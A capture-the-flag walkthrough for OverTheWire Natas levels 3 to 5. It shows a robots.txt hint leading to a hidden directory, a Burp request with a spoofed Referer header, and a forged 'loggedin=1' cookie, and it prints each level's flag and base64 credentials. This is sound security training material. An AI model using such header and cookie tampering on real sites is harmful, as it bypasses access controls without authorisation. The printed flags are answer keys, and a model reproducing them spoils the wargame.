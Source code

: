 There is a comment in the source code with the reference "Not even Google will find this" which implies a `robot.txt` file is involved here. checking that file shows us a directory `/s3cr3t` which contains a `users.txt` file that contains the flag.

{% tabs %}
{% tab title="Flag" %}
```
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
{% endtab %}
{% endtabs %}
## Level 4

This page tells us that valid users only come from `http://natas5.natas.labs.overthewire.org/`, so we use the following burp request and manually set the `Referer` value to that endpoint.

{% tabs %}
{% tab title="Burp Request" %}
```HTTP
GET / HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Referer: http://natas5.natas.labs.overthewire.org/
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
{% endtab %}
{% tab title="Flag" %}
```
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
{% endtab %}
{% endtabs %}
## Level 5

This challenge simply tells us that we aren't logged in. Running the request through burp we see that there is a cookie called `loggedin` that is set to 0 by default. We modify the request and set the value to 1 as shown below.

{% tabs %}
{% tab title="Burp Request" %}
```HTTP
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Cookie: loggedin=1
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
{% endtab %}
{% tab title="Flag" %}
```
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
{% endtab %}
{% endtabs %}